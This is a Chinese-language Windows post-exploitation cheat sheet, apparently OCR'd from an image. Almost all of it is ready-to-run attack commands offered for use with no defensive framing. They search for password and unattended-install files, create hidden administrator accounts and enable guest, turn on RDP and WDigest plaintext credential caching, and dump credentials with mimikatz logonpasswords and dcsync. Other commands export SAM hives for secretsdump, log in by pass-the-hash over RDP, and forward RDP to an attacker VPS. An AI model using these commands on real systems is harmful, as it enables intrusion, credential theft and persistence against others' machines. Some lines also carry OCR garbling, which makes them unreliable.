 
### Win-获取敏感数据和目录

🚀  
搜索D盘磁盘名字为logo.jpg的文件: cd /d D:\\ && dir /b /s logo.jpg  
搜素C盘文件夹下后缀conf内容有password: findstr /s /i /n /d:C:\\ "password" .conf查找密码文件或其他敏感文件: dir /b/s password.txt dir /b/s .doc dir /b/s .ppt dir /b/s .xls dir /b/s .docx dir /b/s .xlsx dir /b/s config. findstr /si password .xml .ini .txt findstr /si  
login .xml .ini .txt  
查看无人值守安装文件，文件位置如下: C:\\sysprep.inf C:\\sysprep\\sysprep.xml C:\\Windows\\Panther\\Unattend\\Unattended.xml C:\\Windows\\Panther\\Unattended.xml

---

### Win-添加用户

🚀  
添加用户并设置密码: net user mstlab tools /add  
将用户加入管理组: net localgroup administrators tools /add  
将用户加入桌面组: net localgroup "Remote Desktop Users" tools /add  
激活guest用户: net user guest /active:yes  
更改guest用户的密码: net user guest 123456  
将guest用户加入管理组: net localgoup administrators guest /add

---

### Win-注册表相关

🚀  
查看3389端口: REG query "HKLM\\SYSTEM\\CurrentControlSet\\Control\\Terminal Server\\WinStations\\RDP-Tcp" /v PortNumber  
开启远程桌面: REG ADD HKLM\\SYSTEM\\CurrentControlSet\\Control\\Terminal" "Server /v fDenyTSConnections /t REG\_DWORD /d 0 /f  
注册表抓取明文: REG ADD HKLM\\SYSTEM\\CurrentControlSet\\Control\\SecurityProviders\\WDigest /v UseLogonCredential /t REG\_DWORD /d 1 /f  
rdp连接默认的10个记录: reg query "HKEY\_CURRENT\_USER\\Software\\Microsoft\\Terminal Server Client\\Default"  
rdp连接默认的所有记录: reg query "HKEY\_CURRENT\_USER\\Software\\Microsoft\\Terminal Server Client\\Servers" /s  
查找软件安装目录: reg query HKLM /f foxmail /t REG\_SZ /s

---

### Win-mimikatz查看当前密码

🚀  
mimikatz查看当前密码: mimikatz "log" "privilege:debug" "sekurlsa:logonpasswords" "exit"  
mimikatz抓取domain密码: mimikatz "lsadump::dcsync /domain:test.com /all /csv" "exit"  
reg导出注册表hash: reg save hklm\\sam c:\\programdata\\sam.hive && reg save hklm\\system c:\\programdata\\system.hive  
mimikatz读取注册表导出的hash信息: mimikatz "log" "lsadump::sam /sam:sam.hive /system:system.hive" "exit"  
impacket包的secretsdump: secretsdump.exe -sam sam.hive -system system.hive LOCAL  
nmap扫描永恒之蓝漏洞: nmap -p445 --script smb-vuln-ms17-010 127.0.0.1  
meterpreter把目标的3389端口转发到vps的6666端口: portfwd add -l 6666 -p 3389 -r 127.0.0.1  
attrib创建隐藏文件: attrib +s +h +r \*.exe  
.net静默安装: dotNetFx40\_Full\_x86\_x64.exe /q /norestart /ChainingPackage FullX64Bootstrapper  
lcx端口转发: 本地监听: lcx.exe -listen 110 34567目标执行: lcx.exe -slave vpsip 110 127.0.0.1 3389  
扫描web.txt文件的网站标题: 本地监听: whatweb -i web.txt -p Title whatweb  
Win终端设置代理: 本地监听: set http\_proxy\=socks5://127.0.0.1:1080 && set https\_proxy\=socks5://127.0.0.1:1080  
xfreerdp hash连接rdp: xfreerdp /u:administrator /pth:ccef208c6485269c20db2cad21734fe7 /v:10.20.24.100 /cert-ignore //server 2012  
runas运行其它账户权限的程序: runas /user:hostname\\username /sa "cmd.exe"

---